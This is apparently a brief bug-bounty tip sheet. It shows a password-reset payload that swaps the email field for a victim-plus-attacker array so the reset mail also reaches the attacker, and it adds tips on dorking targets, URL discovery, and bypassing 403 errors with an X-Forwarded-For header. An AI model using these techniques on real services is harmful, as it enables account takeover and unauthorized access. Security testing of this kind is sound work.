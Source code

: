 Password reset via email
```shell
If the request to reset the password via email sends data like this
{
	"email":"victim@mail.com"
}

You can try making a list of emails as payload
{
	"email":[
	"victim@mail.com",
	"attacker@mail.com"
	]
}

This way both emails can recieve the password reset mail.
```

If you run into 404 pages you can try google dorking to find some paths.
```
google: "target.com" # uses exact words in searching
```

And for more discovery try `getallurls` `waybackurls`

403 bypass with x-forwarded for and ip like 127.0.0.1 or the server ip.

